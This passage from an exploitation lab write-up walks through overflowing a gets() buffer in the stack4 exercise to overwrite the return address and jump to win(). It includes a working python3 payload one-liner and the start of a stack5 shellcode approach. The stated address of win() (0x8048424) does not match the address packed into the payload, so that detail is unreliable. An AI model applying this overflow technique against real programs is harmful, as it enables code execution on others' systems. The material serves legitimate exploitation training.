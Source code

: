          gets(buffer);

        }

In this exercise, we are going to target the return address of the main function, EIP

we have to overflow the buffer such that when the main function returns it will redirect program execution to our manipulated address in this case it is win() function

Find the address of the win function as mentioned above (0x8048424)

We will overflow the buffer and increase it until we get a segmentation fault message, implying the return address was faulty

As the EIP takes up four bytes, we will increase the buffer by 4 bytes (after 64) every time.

On trying this we will get segmentation fault message , when the buffer overflow by 12 bytes i.e input to gets() is 76 in total

Now we have got every thing we need

>(python3 -c "import sys; sys.stdout.buffer.write(b'a'\*76 + b'\\xf4\\x83\\x04\\x08')";) | ./stack4

The output we will receive will be 

code flow successfully changed

Segmentation fault

segmentation fault after is due to overwriting the original return address, so the program can’t exit properly    

  

## stack5:

  

     SOURCE CODE:

         #include <stdlib.h>

         #include <unistd.h>

         #include <stdio.h>

         #include <string.h>

  

         int main(int argc, char \*\*argv)

         {

          char buffer\[64\];

  

          gets(buffer);

         }

This is similar to the previous challenge.

Now, we’re going to use the overflow vulnerability to both put the shellcode on the stack, and to point EIP to where we put the code.
